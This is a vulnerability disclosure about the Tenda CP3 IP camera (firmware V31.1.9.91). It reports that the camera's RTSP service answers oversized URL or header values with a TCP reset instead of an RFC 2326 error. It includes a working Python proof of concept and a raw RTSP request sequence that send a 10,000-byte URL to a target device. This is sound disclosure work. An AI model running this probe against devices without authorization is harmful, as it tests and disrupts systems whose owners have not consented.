



# Tenda CP3 RTSP Service Improper Handling of Oversized Field Values Leading to Abrupt TCP RST Termination

## Information

**Vendor of the products:**  Tenda

**Vendor's website:**  https://www.tenda.com.cn/

**Reported by:**  YanKang

**Affected products:** CP3 V3.0

**Affected firmware version:** V31.1.9.91

**Firmware download address:** https://www.tenda.com.cn/material/show/675687993704517

## Overview

An improper input handling vulnerability exists in the RTSP service of the Tenda CP3 IP camera. When the RTSP service receives a request in which the URL field or any header field value exceeds a certain length threshold, the service does not return any RTSP-layer error response. Instead, it abruptly terminates the connection at the TCP layer by sending a `RST` packet, leaving the client with no application-layer indication of why the request was rejected.

Per RFC 2326, a server that cannot process a received request is required to return an appropriate RTSP error response code — such as `400 Bad Request` or `413 Request Entity Too Large` — before closing the connection. By bypassing the application-layer response and forcing disconnection at the transport layer, the affected device's behavior does not conform to the RFC 2326 specification. This non-conformant behavior may cause clients to enter an undefined state, interfere with session management logic in automated systems, and complicate fault diagnosis in deployment environments where the cause of connection termination cannot be determined from the application layer.

## POC

```python
#!/usr/bin/env python3
"""
PoC for Improper Handling of Oversized Field Values in Tenda CP3 RTSP Service

This proof-of-concept demonstrates a non-conformant behavior in the RTSP service
of the Tenda CP3 IP camera. When a request containing an oversized field value is
received, the device abruptly terminates the TCP connection with a RST packet
without returning any RFC 2326-compliant RTSP error response.

The example below uses an oversized URL field value in the second SETUP request.
The same behavior can be reproduced by supplying oversized values in the URL field
or any header field value of other RTSP requests.

Tested device:
  - Vendor:           Tenda
  - Model:            CP3 V3.0
  - Firmware:         V31.1.9.91

Observed behavior:
  - Device sends TCP RST and closes the connection immediately
  - No RTSP error response is returned (e.g. 400 Bad Request or 413 Request Entity Too Large)
  - RTSP service process remains operational; TCP port 554 continues to accept connections

Usage:
  python3 poc_tenda_cp3_rtsp_oversized_field.py

This code is for authorized security research purposes only.
"""

import socket
import time

CAMERA_IP = "TARGET_IP"   # Replace with target device IP
RTSP_PORT = 554


def recv_rtsp_response(sock):
    """Receive RTSP response from socket, waiting up to 30 seconds."""
    response_data = b""
    sock.settimeout(30)
    try:
        while True:
            chunk = sock.recv(4096)
            if b"RTSP/1.0" in chunk:
                response_data += chunk
                break
            if not chunk:
                break
            response_data += chunk
    except socket.timeout:
        pass
    return response_data


def check_service_alive(ip, port, label=""):
    """
    Verify whether the RTSP service is still alive by sending a minimal
    OPTIONS request. Used to confirm the service remains operational after
    the RST termination event.
    """
    chk = None
    try:
        chk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        chk.settimeout(5)
        chk.connect((ip, port))
        req = (
            f"OPTIONS rtsp://{ip}:{port}/tenda RTSP/1.0\r\n"
            f"CSeq: 1\r\n"
            f"User-Agent: ServiceCheck/1.0\r\n\r\n"
        )
        chk.send(req.encode())
        response = b""
        while True:
            chunk = chk.recv(4096)
            if b"RTSP/1.0" in chunk:
                response += chunk
                break
            if not chunk:
                break
            response += chunk
        first_line = response.decode("ascii", errors="replace").split("\r\n")[0]
        if "200" in first_line:
            print(f"[Service Check][{label}] Service is alive: {first_line}")
        else:
            print(f"[Service Check][{label}] Unexpected response: {first_line}")
    except ConnectionRefusedError:
        print(f"[Service Check][{label}] Connection refused -- RTSP service has crashed.")
    except socket.timeout:
        print(f"[Service Check][{label}] Connection timed out -- RTSP service may have crashed.")
    except Exception as e:
        print(f"[Service Check][{label}] Check failed: {e}")
    finally:
        if chk:
            try:
                chk.close()
            except Exception:
                pass


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((CAMERA_IP, RTSP_PORT))

# 1. OPTIONS
options_req = (
    f"OPTIONS rtsp://{CAMERA_IP}:{RTSP_PORT}/tenda RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
s.send(options_req.encode())
time.sleep(1)
options_res = recv_rtsp_response(s)
print("OPTIONS Response:\n", options_res.decode(errors="ignore"))

# 2. DESCRIBE
describe_req = (
    f"DESCRIBE rtsp://{CAMERA_IP}:{RTSP_PORT}/tenda RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
s.send(describe_req.encode())
time.sleep(1)
describe_res = recv_rtsp_response(s)
print("DESCRIBE Response:\n", describe_res.decode(errors="ignore"))
check_service_alive(CAMERA_IP, RTSP_PORT, label="after DESCRIBE")

# 3. SETUP track1 (legitimate)
setup1_req = (
    f"SETUP rtsp://{CAMERA_IP}/ch=1?subtype=0/trackID=1 RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
s.send(setup1_req.encode())
time.sleep(1)
setup1_res = recv_rtsp_response(s)
print("SETUP_1 Response:\n", setup1_res.decode(errors="ignore"))
check_service_alive(CAMERA_IP, RTSP_PORT, label="after SETUP_1")

# Extract session ID from SETUP track1 response
session_id = None
for line in setup1_res.decode(errors="ignore").split("\r\n"):
    if line.startswith("Session:"):
        session_id = line.split(":")[1].split(";")[0].strip()
        break
if not session_id:
    print("[!] Failed to get session ID, exiting.")
    s.close()
    exit(1)
print(f"[*] Session ID: {session_id}")

# 4. SETUP track2 (oversized URL field value)
# An oversized string is appended to the URL field value of the second SETUP request.
# The same non-conformant RST behavior can be triggered by supplying oversized values
# in the URL field or any header field value of other RTSP requests.
oversized_value = "a" * 10000
setup2_req = (
    f"SETUP rtsp://{CAMERA_IP}/ch=1?subtype=0/trackID=2{oversized_value} RTSP/1.0\r\n"
    f"CSeq: 5\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
    f"Session: {session_id}\r\n\r\n"
)
s.send(setup2_req.encode())
time.sleep(1)
try:
    setup2_res = recv_rtsp_response(s)
    print("SETUP_2 Response:\n", setup2_res.decode(errors="ignore"))
except ConnectionResetError:
    print("[*] SETUP_2: Connection reset by peer (TCP RST received) -- no RTSP error response returned.")
check_service_alive(CAMERA_IP, RTSP_PORT, label="after SETUP_2")

print("[*] PoC finished. If 'Connection reset by peer' was observed above and the subsequent")
print("    service check confirms the service is still alive, the non-conformant behavior")
print("    has been successfully reproduced.")
s.close()
```

## Attack Demo

The issue can be observed by sending an RTSP request containing an oversized field value. The example below uses an oversized URL field value in the second `SETUP` request, where a string of 10000 bytes is appended to the URL. Upon receiving this request, the device immediately terminates the TCP connection with a `RST` packet without returning any RTSP error response. The subsequent service check confirms that the RTSP service process itself remains operational and continues to accept new connections normally.



****



The following is the complete RTSP message sequence used to reproduce the issue:

```
OPTIONS rtsp://<IP>:554/tenda RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://<IP>:554/tenda RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://<IP>/ch=1?subtype=0/trackID=1 RTSP/1.0
CSeq: 4
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://<IP>/ch=1?subtype=0/trackID=2{'a'*10000} RTSP/1.0
CSeq: 5
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: <session_id>
# An oversized string of 10000 bytes is appended to the URL field value.
# The device responds with a TCP RST packet and closes the connection
# without returning any RFC 2326-compliant RTSP error response code.
```

A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/Tenda_CP3V3.0_5th

## Supplement

This vulnerability reflects an improper input handling behavior in the RTSP service of the affected device. When oversized field values are received, the service silently drops the connection at the TCP layer without providing any RFC 2326-compliant error response, leaving clients unable to determine the cause of the failure at the application layer. The same non-conformant behavior can be reproduced by supplying oversized values in the URL field or any header field value across different RTSP request types.

While the RTSP service process itself remains operational after each such event and continues to serve other clients, this non-conformant behavior may introduce risks in real-world deployment scenarios. Automated monitoring systems and client applications that rely on application-layer error codes for session management and fault recovery may enter undefined or inconsistent states when encountering abrupt TCP RST terminations. This behavior deviates from the robustness requirements outlined in RFC 2326 and may negatively impact the reliability and interoperability of the device in production environments.


